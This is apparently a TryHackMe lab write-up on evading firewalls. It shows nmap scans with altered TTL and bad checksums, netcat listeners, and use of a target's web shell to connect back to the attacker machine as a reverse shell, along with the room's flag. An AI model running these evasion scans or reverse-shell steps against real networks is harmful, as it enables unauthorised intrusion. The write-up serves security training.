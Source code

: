 # Room Information 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Banner%20-%20Firewalls.png)

Room link: https://tryhackme.com/room/redteamfirewalls

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 08/15/2023

# Room Tasks

## Evasion via Modifying Header Fields

### Set TTL

1. `nmap -ttl 2 <TARGET IP>`
```Bash
root@ip-10-10-216-160:~# nmap -ttl 2 10.10.21.218

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-02 18:51 BST
Nmap scan report for ip-10-10-21-218.eu-west-1.compute.internal (10.10.21.218)
Host is up (0.00029s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3389/tcp open  ms-wbt-server
MAC Address: 02:21:EC:C8:1A:51 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 17.96 seconds
```

### Use a Wrong Checksum

1. `nmap --badsum <TARGET IP>`
```Bash
root@ip-10-10-216-160:~# nmap --badsum 10.10.21.218

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-02 18:56 BST
Nmap scan report for ip-10-10-21-218.eu-west-1.compute.internal (10.10.21.218)
Host is up (0.000052s latency).
All 1000 scanned ports on ip-10-10-21-218.eu-west-1.compute.internal (10.10.21.218) are filtered
MAC Address: 02:21:EC:C8:1A:51 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 21.45 seconds
```

## Evasion Using Port Hopping 

```Bash
root@ip-10-10-216-160:~# nc -lvnp 21
Listening on [0.0.0.0] (family 0, port 21)
```

```Bash
root@ip-10-10-216-160:~# firefox http://10.10.87.92:8000
```

![]()

![]()

```Bash
Listening on [0.0.0.0] (family 0, port 21)
Connection from 10.10.87.92 38304 received!
```

## Evasion Using Port Tunneling

1. `nc -lvnp <PORT NUMBER>` from our attack machine to open up a netcat listener that'll listen for any inbound connection using FTP's default port
```Bash
root@ip-10-10-173-37:~# nc -lvnp 21
Listening on [0.0.0.0] (family 0, port 21)
```

2. `<TARGET IP>:8080` to open up our target machine's web shell

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Evasion%20Using%20Port%20Hopping%20pt1.png)

4. `nc <MACHINE IP> <PORT NUMBER>` from the target machine's web shell to spawn a reverse shell that'll connect back to our netcat listener

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Evasion%20Using%20Port%20Port%20Tunneling%20pt1.png)

```Bash
Listening on [0.0.0.0] (family 0, port 21)
Connection from 10.10.87.92 38426 received!
GET / HTTP/1.1
host: default

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 02 Aug 2023 20:00:35 GMT
Content-Type: text/html
Content-Length: 223
Last-Modified: Thu, 13 Jan 2022 14:44:03 GMT
Connection: keep-alive
ETag: "61e03ab3-df"
Accept-Ranges: bytes

<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Welcome to Our Local Server</title>
</head>
<body>
        THM{1298331956}
</body>
</html>
```

## Evasion Using Non-Standard Ports
